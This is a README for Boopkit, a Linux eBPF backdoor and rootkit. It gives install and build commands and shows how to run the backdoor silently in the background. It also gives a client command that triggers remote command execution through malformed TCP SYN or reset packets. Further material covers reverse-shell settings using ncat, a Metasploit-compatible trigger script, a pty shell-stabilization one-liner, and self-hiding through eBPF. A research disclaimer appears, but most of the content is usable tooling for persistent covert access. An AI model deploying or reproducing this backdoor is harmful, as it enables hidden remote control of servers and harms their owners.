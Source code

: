 # Boopkit

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.0.5.tar.gz
tar -xzf v1.0.5.tar.gz 
cd boopkit-1.0.5/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background without output

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit &> /dev/null &
```

Boopkit is now running and will automatically try to reverse connect to any source that is booping the server!

## Client Side

Download and build boopkit.

```bash
git clone https://github.com/kris-nova/boopkit.git
cd boopkit
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -x "$RCE"
```

# Remote Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. In theory this would work against a server that has no TCP services listening!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
# Remote values
RHOST="127.0.0.1"
RPORT="22"
# Local values
LHOST="127.0.0.1"
LPORT="3535"
# NetCat Reverse Shell Values
NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang'
 - `bpftool`
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 